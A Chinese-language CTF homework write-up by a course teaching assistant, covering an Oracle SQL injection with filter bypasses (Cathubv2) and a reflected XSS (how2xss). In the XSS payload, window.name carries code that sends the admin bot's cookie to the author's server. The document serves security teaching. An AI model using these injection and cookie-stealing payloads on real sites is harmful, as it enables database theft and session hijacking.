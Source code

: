 ```yaml
---
title: "程式安全::HW4 Write-up"
description: ""
publishDate: "2019-12-18"
category: "CTF"
layout: "../../layouts/ArticleLayout.astro"
---
```



2019 年交大程式安全 HW4 write-up
哈哈是我拉😎😎😎助教拉🤙🤙🤙

# Cathubv2

本題的漏洞在影片的頁面（點進去任意一支影片的地方），url 裡的 vid 會被背後的 OracleDB 抓去搜尋，我們可以猜想到影片連結與標題應該是從DB撈出來的，所以我們可能可以透過 UNION 的方式來直接把資訊印出來，這裡可以先測試有幾個 column :

```sql
vid=-1 union select 1,null from dual
```

要注意的是空白會被阻擋，所以我們要把空白置換成 `/**/` 或是 `%0a` 來繞過檢查，同時也可以發現 `'` 跟 `chr` 也會被擋下來，最後我們可以知道總共有三個欄位：

```sql
vid=-1 union select 1,null,null from dual
```

通過測試可以知道，第二個欄位是影片標題，這裡我們可以去撈 oracleDB 的 metadata 來找有趣的 table 名：

```sql
vid=-1 union select null,table_name,null from user_tables offset 1 rows fetch first 1 rows only

vid=-1 union select null,table_name,null from user_tables offset 2 rows fetch first 1 rows only

vid=-1 union select null,table_name,null from user_tables offset 3 rows fetch first 1 rows only

...
```

會發現撈出名為 `S3CRET` 的 table，這時我們可以嘗試去看他有什麼 column，前面提到 `'` 被擋住所以無法直接使用 `where table_name='S3CRET'`，簡單使用 `()` 做另外一次 query 就可以正常使用 where 了：

```sql
vid=-1 union select null,column_name,null from user_tab_columns where
    table_name=(select table_name from user_all_tables offset 5 rows fetch first 1 rows only)
offset 1 rows fetch first 1 rows only
```

可以找到有一個 column 叫做 `V3RY_S3CRET_C0LUMN`，所以現在只要把該 column 的值都撈出來就好了：

```sql
select V3RY_S3CRET_COLUMN from S3CRET offset 1 rows fetch first 1 rows only

...
```

然後就可以拿到 flag 了。

# how2xss

繞過方式同這個 [writeup](https://medium.com/@renwa/security-fest-2019-ctf-entropian-web-write-up-f81fb11f675b)，這裡較特別的就是 `window.name`，在一個 window 裡面載入的 document 事實上是共用一個 window.name，每個載入的 document 都可以去讀寫他，所以如果題目沒對 `window.name` 做過修改的話，他會使用上一個頁面的 `window.name` ，這樣我們可以不用用 iframe 去多做一個 window ，所以我們可以在我們的 server 上放 payload ，讓 admin 直接造訪 payload 所在的網址，而不一定要 iframe:

```javascript terrynini.tw
<script>
window.name="document.location='https://terrynini.tw/'+document.cookie";
window.location="https://edu-ctf.kaibro.tw:30678/hackme.php?q=%3CSVG/ONLoAD=eval(n%26%2397;m\\u{65})%3E";
</script>
```

然後直接回報 `terrynini.tw` 給 admin，這樣 `window.location` 跳轉之後，其實我們 `window.name` 還是會被保存，如此透過本來頁面的 xss 漏洞來觸發 `svg/onload` 裡的 `eval` 去造訪我們的 server，如此可以在自己 server 上的 apache access log 看到 admin bot 造訪了什麼 uri，也就是 `document.cookie`。

## 12/25 補充

看了大家繳交的 writeup 其實不太確定大家是不是有理解原理....，因為這題較混亂，所以這次作業評分有解釋清楚的人會多一個 `+` 號，分數之後再討論，總括來說會有兩種 payload ，一種是像上述 writeup 一樣使用 `<iframe src=/\PSHTA.ML>` 讓 admin 訪問，第二種是直接把 javascript 所在的網址給 admin 去訪問。主要差別在於，如果回報給 admin 的網址必須也得是 `https://edu-ctf.kaibro.tw:30678/hackme.php?q=` 的話，那我們就必須使用 `iframe` 的方式不可，但這題其實沒有這個限制，所以不需要多繞一個 `iframe` 來完成，可以直接傳網址就好了。

因為不知道大家是不是有發現可以回報外部網域，writeup 的語意可能有誤會，所以這裡不用 `A/B` 來評分，就讓有解釋清楚的人多點分數這樣子。

在其他部分，這兩種 payload 其實沒有差別， `iframe` 跟直接存取網址一樣，都有跨域拿 cookie 的問題，所以我們不能在 `iframe` 裡面直接拿 cookie，必須把 admin 導回同網域 (`edu-ctf.kaibro.tw`) 中有 Reflected XSS 漏洞的頁面，這裡利用 `window.name` 跨域的特性所以可以夾帶我們真實的 payload 來繞過 filter。